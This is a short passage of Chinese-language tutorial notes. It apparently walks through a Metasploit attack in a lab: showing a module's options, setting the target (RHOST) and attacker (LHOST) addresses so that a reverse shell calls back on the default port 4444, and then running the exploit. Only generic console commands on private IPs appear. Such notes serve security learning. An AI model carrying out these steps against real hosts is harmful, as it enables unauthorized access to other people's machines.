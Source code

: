 - 查看模块需要配置的参数： `show options`  ![](media/Pasted%20image%2020250701022220.png)  
	- 设置RHOST，也就是要攻击主机的ip：`set RHOST 192.168.0.103`
	- 设置LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell：`set LHOST 192.168.0.104`
	- 如果我们这里不设置lport的话，默认是4444端口监听
- 攻击：`exploit / run`  ![](media/Pasted%20image%2020250701053545.png)  